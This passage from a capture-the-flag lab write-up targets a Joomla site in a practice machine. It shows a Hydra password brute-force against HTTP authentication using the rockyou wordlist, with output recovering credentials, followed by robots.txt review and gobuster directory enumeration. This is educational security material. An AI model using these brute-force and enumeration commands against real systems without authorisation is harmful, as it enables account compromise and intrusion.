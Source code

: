 ### 1.4. Password Bruteforcing: Hydra
```
┌──(kali㉿kali)-[~]
└─$ hydra 10.10.183.215 -s 8080 -l {username} -P /usr/share/wordlists/rockyou.txt http-get
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-03 03:13:22
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.183.215:8080/
[STATUS] 1174.00 tries/min, 1174 tries in 00:01h, 14343225 to do in 203:38h, 16 active
[8080][http-get] host: 10.10.183.215   login: {username}   password: {password}
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-03 03:14:34
```

Now, we can login on the port 8080 using these credentials.

### 1.5. Web Exploration (Again)
![port 8080 Joomla CMS website homepage](https://i.imgur.com/2Dnes6f.jpg)

I did not know Joker is a Joomla fan. We check the `robots.txt` file as usual, and we get the directory structure of Joomla. 
```
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
Let's go to `/administrator/`. I explore how to get the password in the next sections.
![Administrator page in Joomla](https://i.imgur.com/HNr1dh0.png)

### 1.6. Web Enumeration (Again)
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.183.215:8080/ -U {username} -P {password} -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 'php,html,txt' -t 108 -q
/templates            (Status: 301) [Size: 325] [--> http://10.10.183.215:8080/templates/]
/modules              (Status: 301) [Size: 323] [--> http://10.10.183.215:8080/modules/]  
/bin                  (Status: 301) [Size: 319] [--> http://10.10.183.215:8080/bin/]      
/plugins              (Status: 301) [Size: 323] [--> http://10.10.183.215:8080/plugins/]  
/README               (Status: 200) [Size: 4494]                                          
/README.txt           (Status: 200) [Size: 4494]                                          
/cache                (Status: 301) [Size: 321] [--> http://10.10.183.215:8080/cache/]    
/components           (Status: 301) [Size: 326] [--> http://10.10.183.215:8080/components/]
/robots               (Status: 200) [Size: 836]                                            
/robots.txt           (Status: 200) [Size: 836]                                            
/LICENSE.txt          (Status: 200) [Size: 18092]                                          
/LICENSE              (Status: 200) [Size: 18092]                                          
```